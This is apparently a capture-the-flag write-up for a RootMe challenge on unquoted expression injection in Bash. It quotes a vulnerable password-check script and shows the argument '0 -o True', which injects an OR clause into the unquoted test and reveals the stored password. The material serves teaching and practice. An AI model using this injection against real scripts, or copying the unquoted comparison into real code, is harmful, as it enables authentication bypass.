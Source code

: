 ```yaml
---
layout: default
title: RootMe
permalink: /app-script/bash-unquoted-expression-injection
---
```


# Bash - unquoted expression injection

## Statement
Bypass this script’s security to recover the validation password.

## Source code
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd)
    
if test -z "${1}"; then
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq ${1} 2>/dev/null; then
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```

## Analyze
Let's analyze this code
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd) # Target

if test -z "${1}"; then # -z is to check if first argument is empty
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq ${1} 2>/dev/null; then # If first arg is equal to flag
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```

So magic will happen here
```bash
if test $PASS -eq ${1} 2>/dev/null; then
```

## Exploitation
```bash
app-script-ch16@challenge02:~$ ./wrapper "0 -o True"
Well done you can validate the challenge with : *************
```

## How does it work ?
Like classic injections, our goal is to force the condition to validate.

With this argument: `"0 -o True"` script condition became
```bash
if test $PASS -eq 0 -o True 2>/dev/null; then
```
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd)
    
if test -z "${1}"; then
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq 0 -o True 2>/dev/null; then
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```
`"0 -o True"`:
- `0` = Allows `-eq` to achieve its goal
- `-o` = Is OR in bash conditions
- `True` = Allows `-o` to make the condition as True

In pseudo-code, this changes the condition from:
```py
if $PASS == 0 :
```
to:
```py
if $PASS == 0 or True :
```